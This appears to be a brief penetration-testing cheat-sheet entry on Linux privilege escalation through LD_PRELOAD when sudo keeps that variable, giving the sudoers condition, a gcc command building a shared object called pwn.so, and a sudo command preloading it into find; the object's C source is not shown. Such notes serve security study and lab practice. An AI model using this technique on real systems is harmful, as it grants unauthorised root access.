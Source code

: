 # LD_PRELOAD

## Example

### True positive: 

    env_keep+=LD_PRELOAD

### 1: Check for LD_PRELOAD

### 2: Write a simple C code compiled as a share object file (.so extension)

### 3: Run the program with sudo privileges and the LD_PRELOAD option pointing to our .so file

### 1) Compilation

    gcc -fPIC -shared -o pwn.so pwn.c -nostartfiles

### 2) Usage: 

    sudo LD_PRELOAD=/home/user/pwn.so find
